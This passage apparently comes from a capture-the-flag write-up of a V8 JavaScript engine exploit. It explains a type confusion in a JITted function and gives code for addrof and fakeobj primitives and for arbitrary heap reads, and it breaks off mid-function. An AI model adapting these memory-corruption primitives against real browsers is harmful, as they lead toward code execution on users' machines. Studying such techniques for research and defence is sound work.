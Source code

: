 I chose `g()` to get JITted. It expects `o.b` to be a HeapNumber, and writes a supplied value to it, even if `o.b` really isn't a HeapNumber.

I made a second array, `y2`, which is the same as `y` but `y2.b` is an array of *objects*, not an array of floats.

### addrof and fakeobj primitives

We can use our float `elements` and `properties` pointer from our first type confusion, and our `g()` function from our second type confusion.

We can overwrite the `elements` and `properties` pointer of y2 to **point to the elements and properties of y**.

```javascript
y = {a:5, b:[6.9], c:2}

float_elem = f(y) >> 32n
float_prop = f(y) & 0xffffffffn


y2 = {a:5, b:[{}], c:2}
g(y2, (float_elem << 32n) + float_prop)
```

`y.b` thinks everything is a float when it accesses its `elements`.
`y2.b` thinks everything is an object pointer when it accesses its `elements`, but in reality it is accessing the `elements` of `y.b`.

Now, our addrof and fakeobj primitives are very easy:
```javascript
function addrof(o){
    y2.b[0] = o
    return ftoi(y.b[0]) & 0xffffffffn
}

function fakeobj(addr){
    y.b[0] = itof(addr)
    return y2.b[0]
}
```

### controlled read and write
Same idea as in Download Horsepower. Set up a fake array with a float map, then get a fake object within that float map, and control the `elements` pointer of the fake object.

I took advantage of the fact that the v8 heap is notoriously stable, and the float map is allocated very early on, so the address is likely to not change. Because of pointer compression we don't need to worry about getting the full v8 heap base.


```javascript
c = [itof(0x82439f1n), itof((4n << 32n) + 0x69696969n)]

function read(addr){
    if (addr % 2n == 0){
        addr += 1n
    }

    c[1] = itof((4n << 32n) + addr-8n)

    let fake = fakeobj(addrof(c) + 112n + 8n)

    return ftoi(fake[0])
}

function heap_write(addr, data){
    if (addr % 2n == 0){
```